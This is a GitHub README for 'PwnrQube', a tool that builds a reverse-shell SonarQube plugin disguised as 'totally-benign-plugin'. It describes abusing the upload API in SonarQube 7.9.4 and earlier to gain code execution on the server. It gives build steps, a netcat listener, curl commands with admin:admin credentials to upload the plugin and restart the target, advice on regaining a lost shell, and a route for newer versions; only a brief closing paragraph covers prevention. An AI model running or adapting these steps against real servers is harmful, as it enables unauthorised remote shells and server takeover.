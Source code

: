 # PwnrQube

A reverse shell plugin for SonarQube by braindead

### Background

A hidden API command in SonarQube <= 7.9.4 allows privilege escalation. If you have administrative access to SonarQube, you can use the dashboard to install plugins from the marketplace, but you can't upload custom plugins. The API endpoint at `updatecenter/upload`, however, does allow custom plugins to be uploaded, and you can abuse this feature to execute arbitrary code on the server.

By crafting a custom plugin that uses built-in Java libraries to open a reverse shell to a host you control, you can elevate privilege from web application administrator to server user (whatever user runs the SonarQube application). This project provides sample code and instructions for building a reverse shell plugin and installing it on a vulnerable server.

### Build Requirements

* Java 8
* Maven
  * macOS: `brew install maven`
  * Kali: `sudo apt install maven`

### Exploit Requirements

- Admin access to SonarQube
- Curl
- Netcat (nc)

### Build Instructions

1. Clone this repo or download the `totally-benign-plugin` directory.
2. Edit the file `totally-benign-plugin/src/main/java/benign.java` and change the host and port (lines 12-13) to your liking, then save the file.
4. Open a terminal window, `cd` into `totally-benign-plugin` and run `mvn clean package`. This will compile the plugin and output the file `totally-benign-plugin/target/totally-benign-plugin-1.0.jar`.
### Development Notes

See https://docs.sonarqube.org/latest/extend/developing-plugin/ for more information about building custom SonarQube plugins.

Use `docker` for local testing if you want to make more significant changes to the plugin. Use any version before 7.9.5 to test exploitation via API as described below:

```bash
$ docker run -d --rm --name sonarqube -p 9000:9000 sonarqube:7.9.4-community
```

### Exploit Instructions

Use the following shell commands to upload the plugin, restart SonarQube to load the plugin, and receive the callback (which will take a minute or two, depending on your target):

```bash
$ nc -nvlp [PORT]
$ curl --user admin:admin -X POST -F file=@target/totally-benign-plugin-1.0.jar https://[TARGET]/api/updatecenter/upload
$ curl --user admin:admin -X POST https://[TARGET]/api/system/restart
```

### Exploitation Notes

If you want to, after uploading (but before restarting) you can verify that the plugin was uploaded successfully by logging in to the admin dashboard and browsing to `Administration > Marketplace`. You should see a notification at the top of the page indicating that a plugin is pending installation, and a button you can click to restart the application.

If SonarQube has issues with the plugin for some reason, you will see an error notification in the dashboard at `Administration > Marketplace`. If this happens, DO NOT RESTART THE APPLICATION! This will likely knock SonarQube offline entirely. Instead, use this command to remove the faulty plugin:

```bash
$ curl --user admin:admin -X POST https://[TARGET]/api/plugins/cancel_all
```

As soon as the plugin is loaded during the restart, the reverse shell callback will be triggered. If you lose your shell and need to get it back, simply restart the application again. While the plugin is installed, it will be visible in the admin dashboard under `Administration > Marketplace > Installed`.

Be sure to uninstall the plugin and restart the application when you are done with post-exploitation.

The API that enables this privilege escalation attack to work remotely was remediated in version 7.9.5 (the upload endpoint was removed). In order to use this plugin in later versions, you need to obtain access to the backend server some other way, place `totally-benign-plugin-1.0.jar` in the `extensions/plugins/` directory of your SonarQube installation, and restart the application.

### Attack Prevention

If you are a SonarQube administrator, preventing this privilege escalation attack is simple – just upgrade to the latest available version of SonarQube. As long as the version is higher than 7.9.4, this attack vector can't be exploited unless the attacker finds some other way to access the backend server.

